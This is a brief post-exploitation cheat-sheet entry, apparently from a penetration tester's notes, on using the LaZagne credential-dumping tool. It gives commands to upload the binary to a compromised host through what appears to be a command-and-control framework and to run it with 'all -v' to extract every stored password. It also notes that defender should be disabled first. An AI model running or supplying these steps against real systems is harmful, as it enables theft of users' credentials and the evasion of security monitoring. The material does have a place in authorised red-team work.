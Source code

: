 # LaZagne

### 1) Upload Lazagne binary to execute - as it's not in C#, defender should be disabled

    upload /home/kali/tools/bins/exes/LaZagne.exe

### 2) Run 

    execute -o LaZagne.exe
    execute -o LaZagne.exe all -v
